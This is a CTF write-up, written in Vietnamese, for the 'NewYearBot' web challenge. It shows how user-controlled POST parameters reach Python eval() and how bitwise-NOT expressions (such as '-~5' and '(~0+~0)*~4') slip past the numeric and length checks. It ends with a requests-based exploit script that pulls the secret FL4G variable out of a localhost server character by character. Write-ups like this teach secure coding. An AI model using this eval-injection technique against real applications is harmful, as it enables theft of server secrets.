 # Write-up NewYearBot

### Tổng quan

- Tổng quan trang web có 1 giao diện để yêu cầu các lời chúc mừng năm mới, mỗi lần yêu cầu thì các lời chúc sẽ được render ra ngẫu nhiên theo 1 mảng có sẵn các lời chúc trong mã nguồn.

![Untitled](Write-up/Untitled.png)

![Untitled](Write-up/Untitled%201.png)

- Ngoài các mảng gồm các lời chúc được render ở trang web thì ta thấy có 1 biến là `FL4G` được gán giá trị từ 1 biến môi trường trên server (để thuận tiện khai thác nên mình đã gán trực tiếp giá trị flag thật). Từ đây nhiệm vụ của challenge này sẽ là làm như thế nào đó để đọc được giá trị của biến `FL4G`.
- Nhìn vào src code thì mình thấy có 3 untrusted data là 1 param get `debug`, 2 param post `type` và `number`. Ngoài ra thì trong chương trình còn sử dụng hàm `eval()` ở nhiều chỗ (hàm này là 1 trong những hàm nguy hiểm của Python).

![Untitled](Write-up/Untitled%202.png)

![Untitled](Write-up/Untitled%203.png)

- Sau khi xem sơ thì mình thấy có 4 chỗ dùng hàm `eval()`, tuy nhiên thì ở dòng 15, 28 thì sẽ không khai thác được vì các giá trị sẽ random untrusted data không tác động vào được. Còn ở dòng 82 thì untrusted data tác động vào được nhưng sẽ trả về độ dài của chuỗi (phục vụ cho việc brute force). Vậy thì hàm `eval()` ở dòng 79 sẽ là nơi chúng ta khai thác.

```python
greeting = eval("%s[%s]" % (greetType, greetNumber)) //greetType = type, greetNumber = number
```

- Ở dòng 79 thì nếu chúng ta truyền giá trị `type = FL4G`, `number = 0` thì chương trình sẽ chạy hàm như sau: `eval(”FL4G[0]”)` , sau khi chạy xong thì chương trình sẽ in ra ký tự đầu tiên của chuỗi FL4G.

![Untitled](Write-up/Untitled%204.png)

⇒ Vậy thì với untrusted data `number` ta sẽ brute force ra tất cả ký tự của chuỗi `FL4G` này. Nhưng để xem được độ dài của chuỗi thì ta có thể thêm param get `debug`.

![Untitled](Write-up/Untitled%205.png)

- Tới đây thì bình thường thì mình sẽ sử dụng intruder để brute force ra hết những ký tự vì mình đã biết được độ dài. Tuy nhiên thì trong chương trình có 2 lớp phòng thủ như sau.

![Untitled](Write-up/Untitled%206.png)

![Untitled](Write-up/Untitled%207.png)

- Dòng 75 chương trình sẽ kiểm tra `number` có phải là số hay không (sử dụng regex để lấy ra các chữ số rồi kiểm tra) đồng thời bắt buộc `number` phải bé hơn độ dài của các mảng lời chúc, dòng 76 thì độ dài của `greetType[greetNumber]` phải bé hơn 20.

⇒ `number` nhập vào thì sẽ phải bé hơn 6. Mình nhập vào 6 là trang web đã báo lỗi.

![Untitled](Write-up/Untitled%208.png)

### Khai thác 1

- Để khai thác thì mình sẽ sử dụng toán tử bitwise đảo ~, công thức như sau `~a = -a - 1`. VD: ~0 = -1, ~5 = -6. Lợi dụng toán tử bitwise này và kết hợp thêm việc có thể truyền số âm thì mình có thể làm ra 1 list các giá trị tương ứng để lấy ra tất cả ký tự của chuỗi `FL4G`. Đoạn code exploit sẽ như sau:

```python
import requests

url = "http://localhost:5000/"
chars = ""
index = [
    '0', 
    '1', 
    '2', 
    '3', 
    '4', 
    '5', 
    '-~5', 
    '-(~0+~5)', 
    '-(~0+~0+~5)', 
    '-(~0+~0+~0+~5)', 
    '(~0+~0)*~4', 
    '-~0+(~0+~0)*~4',
    '(~0+~0)*~5',
    '-~0+(~0+~0)*~5',
    '~0+~0+~0+~0+~4',
    '~0+~0+~0+~4',
    '~0+~0+~4',
    '~0+~4',
    '~4',
    '-4',
    '-3',
    '-2',
    '-1'
]
for i in index:
    data = {"type": "FL4G", "number": "{}".format(i)}
    r = requests.post(url, data=data)
    chars += r.text.split("</strong>")[2].split("</div>")[0]
    
print(chars)
```

![Untitled](Write-up/Untitled%209.png)